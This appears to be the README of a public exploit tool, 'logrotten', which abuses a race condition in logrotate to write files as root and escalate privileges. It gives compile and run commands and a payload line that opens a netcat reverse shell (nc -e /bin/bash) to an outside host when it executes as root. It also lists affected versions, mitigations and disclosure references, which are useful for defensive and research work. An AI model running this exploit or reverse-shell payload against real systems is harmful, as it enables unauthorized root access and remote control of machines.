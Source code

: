 # Winning a race condition in logrotate to elevate privileges

## Brief description
  - logrotate is prone to a race condition after renaming the logfile.
  - If logrotate is executed as root, with option that creates a 
    file ( like create, copy, compress, etc.) and the user is in control 
    of the logfile path, it is possible to abuse a race-condition to write 
    files in ANY directories.
  - An attacker could elevate his privileges by writing reverse-shells into 
    directories like "/etc/bash_completition.d/".
 
## Precondition for privilege escalation
  - Logrotate has to be executed as root
  - The logpath needs to be in control of the attacker
  - Any option that creates files is set in the logrotate configuration

## Tested version
  - Debian GNU/Linux 9.5 (stretch)
  - Amazon Linux 2 AMI (HVM)
  - Ubuntu 18.04.1
  - logrotate 3.8.6
  - logrotate 3.11.0
  - logrotate 3.15.0

## Compile
  - gcc -o logrotten logrotten.c

## Prepare payload
```
echo "if [ `id -u` -eq 0 ]; then (/bin/nc -e /bin/bash myhost 3333 &); fi" > payloadfile
```

## Run exploit 

If "create"-option is set in logrotate.cfg:
```
./logrotten -p ./payloadfile /tmp/log/pwnme.log
```

If "compress"-option is set in logrotate.cfg:
```
./logrotten -p ./payloadfile -c -s 4 /tmp/log/pwnme.log
```


## Known Problems
  - It was hard to win the race inside a docker container or on a lvm2-volume. This version of logrotten improves the reliability.

## Mitigation
  - make sure that logpath is owned by root
  - use option "su" in logrotate.cfg
  - use selinux or apparmor

## Author
  - Wolfgang Hotwagner

## References
  - https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition
  - https://tech.feedyourhead.at/content/abusing-a-race-condition-in-logrotate-to-elevate-privileges
  - https://github.com/whotwagner/logrotten
  - https://www.ait.ac.at/themen/cyber-security/ait-sa-20190930-01/
  - https://tech.feedyourhead.at/content/privilege-escalation-in-groonga-httpd

